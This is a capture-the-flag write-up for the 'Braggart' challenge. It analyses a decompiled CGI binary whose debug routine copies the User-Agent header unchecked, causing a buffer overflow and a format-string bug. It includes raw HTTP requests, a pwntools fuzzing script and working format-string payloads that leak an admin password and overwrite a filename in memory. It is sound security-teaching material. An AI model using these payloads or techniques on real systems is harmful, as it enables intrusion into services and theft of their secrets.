






# Braggart

## Problem

<details>

<summary>Description</summary>

This guy keeps bragging about keeping us out of his secrets.

It's annoying.

Get the flag please.

_https://nessus-braggart.chals.io_

</details>


I didn't solve this challenge by myself, most of the credit goes to [_<mark style="color:yellow;">**kos0ng**</mark>_ ](https://github.com/kos0ng)and [_<mark style="color:yellow;">**dmcr7**</mark>_ ](https://github.com/dmcr7)who found the main vulnerability and craft the final exploit. The purpose of this writeup is to strengthen my understanding and hopefully the readers as well. Although the exploit might seem trivial, to properly execute it gave me a new perspective towards the various attack vectors, reconnaissance and information gathering that could be done in a real life scenario.&#x20;



Sesepuh



Suhu


## Solution

### Analysis

Visiting the link given, we are shown the following page

<figure><figcaption><p>Default page</p></figcaption></figure>

clicking <mark style="color:orange;">**backup**</mark> will download the binary that seems to be running the website for us. Below is the decompiled main function using ghidra.


Any subsequent decompiled code showed below will have part that are deemed unnecessary or irrelevant removed.


<details>

<summary><em><mark style="color:green;"><strong>Main()</strong></mark></em></summary>

```c
undefined8 main(void){
  int check;
  long in_FS_OFFSET;
  long size;
  char *query;
  char *request_method;
  char *debug_mode;
  char *AdminPass;
  char *x_password;
  char *len;
  char buffer [72];
  
  query = getenv("QUERY_STRING");
  request_method = getenv("REQUEST_METHOD");
  debug_mode = getenv("HTTP_X_DEBUG");
  AdminPass = getenv("AdminPass");
  x_password = getenv("HTTP_X_PASSWORD");
  printf("%s\n\n","Content-Type:text/html");
  if (debug_mode != (char *)0x0) {
    check = atoi(debug_mode);
    if (check == 1) {
      setDebug();
    }
  }
  puts("<TITLE>Secrets</TITLE>");
  len = getenv("CONTENT_LENGTH");
  if (len != (char *)0x0) {
    check = __isoc99_sscanf(len,"%ld",&size);
    if (check == 1) {
      if (size < 0x40) {
        fgets(buffer,(int)size,stdin);
      }
      else {
        printf("<h4>Err:Too much data</h4>");
      }
    }
  }
  if (x_password != (char *)0x0) {
    check = strcmp(AdminPass,x_password);
    if (check == 0) {
      printSecrets();
    }
  }
  printMain();
  return 0;
}
```

</details>

The only way that we can affect the program's behaviour is through the environment variables. To the remote server some of the env are pre-configured and some we can interact through the HTTP header. Below we try to enabled the debug mode, notice it returns more data than before.

<figure><figcaption><p>Debug mode on</p></figcaption></figure>

With the help of _<mark style="color:orange;">**pwntools**</mark>_ we can also interact locally with the binary and set up the environment variables as we wish as we will experiment.


```python
from pwn import *

exe = './sec.bak'
elf = context.binary = ELF(exe, checksec=True)

env = {
        "QUERY_STRING": "",
        "REQUEST_METHOD": "GET",
        "HTTP_X_DEBUG": "1",
        "AdminPass": "unkown",
        "HTTP_X_PASSWORD": "???",
        "REMOTE_ADDR": "<ip>",
        "HTTP_USER_AGENT": ""
}
    
io = process(exe, env=env)  
io.interactive()
```


<details>

<summary><em><mark style="color:green;">printSecrets()</mark></em></summary>

```c
void printSecrets(void){
  int i;
  char *file;
  size_t len;
  char *pwd;
  char *path;
  FILE *fd;
  long in_FS_OFFSET;
  char c;
  
  file = (char *)malloc(8);
  len = strlen(file);
  *(undefined4 *)(file + len) = "brag";
  *(undefined *)((long)(file + len) + 4) = 0;
  pwd = getenv("workingDir");
  path = (char *)malloc(0x40);
  if (debug != 0) {
    printDebugInfo();
  }
  strcat(path,pwd);
  strcat(path,file);
  printf("<pre><h3> secrets : </h3>");
  fd = fopen(path,"r");
  if (fd != (FILE *)0x0) {
    while (c != -1) {
      putchar((int)c);
      i = fgetc(fd);
      c = (char)i;
    }
    fclose(fd);
  }
  printf("</pre>");
}
```

</details>

This function simply opens a file named _<mark style="color:blue;">**brag**</mark>_ and prints its content. Its seems this is our goal to gain the flag. However in order for program to execute we need to provide the correct password

<details>

<summary><em><mark style="color:green;"><strong>printDebugInfo()</strong></mark></em></summary>

```c
undefined8 printDebugInfo(void){
  char *env;
  char buffer [1008];
  undefined8 format;
  
  format = 0x7325;
  printf("<pre><h1>debug info</h1>");
  printf("<h3> Remote Addr : </h3>");
  env = getenv("REMOTE_ADDR");
  strcpy(buffer,env);
  printf((char *)&format,env);
  printf("<h3> User Agent : </h3>");
  env = getenv("HTTP_USER_AGENT");
  strcpy(buffer,env);
  printf((char *)&format,env);
  printf("</pre><br><hr><br>");

  return 0;
}
```

</details>

This function takes the some metadata within the HTTP request we made and prints it. However there's two vulnerability here:&#x20;

1. <mark style="color:red;">**Buffer Overflow**</mark>: considering <mark style="color:orange;">**User-Agent**</mark> is within our control, we're able to abuse <mark style="color:blue;">**strcpy()**</mark> and trigger a buffer overflow since there's no check on how length of <mark style="color:orange;">**User-Agent**</mark> we're able to provide.&#x20;
2. <mark style="color:red;">**Format String**</mark>: this stems from the buffer overflow, since the string for the format specifier is being loaded from the stack we're able to overwrite it and craft a format string of our own.

### Exploitation

Initially we spend much of our time figuring how to bypass the <mark style="color:orange;">**CONTENT-LENGTH**</mark> check to gain buffer overflow. After discovering the two strong primitives, we start to fuzz the binary and leak  the stack and leak the environment variables loaded. Below is the payload used to overwrite the format specifier to leak the stack:

_<mark style="color:blue;">**`padding * 1008 +`**</mark>**` `**<mark style="color:green;">**`%1$p%`**</mark><mark style="color:yellow;">**`{offset}`**</mark><mark style="color:green;">**`$s`**</mark>_

<figure><figcaption><p>local fuzz</p></figcaption></figure>

We can see at offset 328 we are able to leak the password. Next is just to ran the it against the server, however we want to fuzz around the local offset taking account of different factors such as libc version that could affect the difference between the offset at local and remote.


For example, if our target is at the offset of 325, we would fuzz at the target server between 315 - 335


I will utilise Burpsuite's intruder to fuzz against the remote server

<figure><figcaption><p>Leaking password against remote server</p></figcaption></figure>

Now we just need to give the password to the server... right...?

<figure><figcaption><p>requesting the flag with the correct password</p></figcaption></figure>

Apparently, the flag is in a different file. At this point, I fuzz a bit more to gain more knowledge I needed to retrieve the flag. Using the same methodology above, were able to gain the following information against the remote server:

1. Found at offset-<mark style="color:yellow;">**325**</mark>, env <mark style="color:blue;">**AdminPass=xbYP3h7Ua94c**</mark>
2. Found at offset-<mark style="color:yellow;">**267**</mark>, the string <mark style="color:blue;">**brag**</mark>
3. Found at offset-<mark style="color:yellow;">**326**</mark>,  env <mark style="color:blue;">**workingDir=/home/ctf/**</mark>

Then since we have a format string primitive, we are able to overwrite memory and somehow we need to overwrite brag with flag. Taking a look back at the _<mark style="color:green;">**printSecrets()**</mark>_, the string is being allocated through malloc, and since that pointer is available in the stack at offset 267, we're able to reference that pointer to overwrite the brag string.&#x20;


Recall since we leaking the stack using <mark style="color:green;">**$s**</mark>, which takes pointer to a char. Means if the printed value at <mark style="color:yellow;">**267**</mark> is <mark style="color:blue;">**brag**</mark>, that means the value at that offset is the pointer to the heap that contains the string


Next, to further improve efficiency, since <mark style="color:blue;">**flag**</mark> in hex is <mark style="color:green;">**0x67616c66**</mark> or <mark style="color:green;">**1734437990**</mark> in decimal. It would take quite a long time to print the characters and potentially timing out our request. To get around this, since the last two character i.e <mark style="color:blue;">**ag**</mark> is the same, we would only need overwrite the first two byte to <mark style="color:blue;">**fl**</mark> which in hex is <mark style="color:green;">**0x6c66**</mark> or <mark style="color:green;">**27750**</mark> in decimal. Thus our final payload would be:

<mark style="color:green;">**`%`**</mark><mark style="color:blue;">**`27750c`**</mark><mark style="color:green;">**`%`**</mark><mark style="color:yellow;">**`267`**</mark><mark style="color:green;">**`$hn`**</mark>

<figure><figcaption><p>Final exploit</p></figcaption></figure>

## Appendix

<details>

<summary><mark style="color:yellow;"><strong>Leak Password</strong></mark></summary>


```http
GET /sec.cgi HTTP/1.1
Host: nessus-braggart.chals.io
User-Agent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%1$p%325$s
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
X-Debug: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close


```


</details>

<details>

<summary><mark style="color:red;"><strong>Final Exploit</strong></mark></summary>


```http
GET /sec.cgi HTTP/1.1
Host: nessus-braggart.chals.io
User-Agent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%27750c%267$hn
X-Debug: 1
X-Password: xbYP3h7Ua94c
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close


```


</details>

<details>

<summary><mark style="color:blue;"><strong>Local Testing Script</strong></mark></summary>


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './sec.bak'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'warn'

# =========================================================
#                       FUZZ ENV
# =========================================================
# found remote AdminPass offset at 325
# found local AdminPass offset at 328
# found both (char *) to string 'brag' at 267 
# found remote workingDir=/home/ctf/ at offset 326
AdminPass = "xbYP3h7Ua94c"
for i in range(0, 400):
    payload = b'A'*1008
    payload += f'%1$p %{i}$s'.encode()

    env = {
        "QUERY_STRING": "",
        "REQUEST_METHOD": "",
        "HTTP_X_DEBUG": "1",
        "AdminPass": "SomethingSecure",
        "HTTP_X_PASSWORD": "unknown",
        "REMOTE_ADDR": "127.0.0.1",
        "HTTP_USER_AGENT": payload
    }

    io = process(exe, env=env)
    try: 
        io.recvuntil(b'User Agent : </h3>')
        leak = io.recvuntil(b'</pre>', drop=True).strip()
        warn('leak-%d: %s', i, leak)
        io.close()
    except BaseException or EOFError:
        io.close()
        pass

# =========================================================
#                      FINAL EXPLOIT
# =========================================================
payload = b'A'*1008
payload += f'%27750c%267$hn'.encode()

env = {
    "QUERY_STRING": "",
    "REQUEST_METHOD": "GET",
    "HTTP_X_DEBUG": "1",
    "AdminPass": "xbYP3h7Ua94c",
    "HTTP_X_PASSWORD": "xbYP3h7Ua94c",
    "CONTENT_LENGTH": "",
    "workingDir": "/home/kali/",
    "REMOTE_ADDR": "127.0.0.1",
    "HTTP_USER_AGENT": payload
}

io = process(exe, env=env)
print(io.recv())

io.interactive()
```


</details>

## Flag

> _**flag{f0rmat\_th3m\_str1ngz}**_
